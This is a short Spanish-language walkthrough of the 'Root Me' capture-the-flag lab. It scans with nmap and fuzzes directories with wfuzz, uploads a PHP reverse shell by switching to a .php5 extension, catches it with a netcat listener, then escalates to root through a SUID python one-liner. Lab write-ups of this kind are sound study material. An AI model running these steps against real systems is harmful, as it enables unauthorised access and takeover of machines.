







# Root Me

## Scanning

```shell
sudo nmap -sS -p- --min-rate 5000 -vvv --open -n -Pn 10.10.241.191 -oG allports
nmap -sC -sV -p 22,80 10.10.241.191 -oN targeted
```



## 80

### Wfuzz

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirb/common.txt -t 100 -u 'http://10.10.241.191/FUZZ'
```



**http://10.10.241.191/panel/**



Subimos una reverse shell en php

```bash
locate shell.php
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
```



Modificamos la IP, el puerto y la shell colocamos bash

No nos permite subir archivos php así que probamos con algunas de las extensiones comunes ***php*, *.php2*, *.php3*, .*php4*, .*php5*, .*php6*, .*php7*, .phps, .*phps*, .*pht*, .*phtm, .phtml*, .*pgif*, *.shtml, .htaccess.** Funciona con php5

Así que nos ponemos en escucha en el puerto 4444 con netcat.

```shell
nc -lvp 4444
```



## Privilege Scalation

Buscamos archivos con SUID.

```shell
find / -perm -u=s 2>/dev/null
```




Podemos usar python para escalar privilegios con el SUID

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```



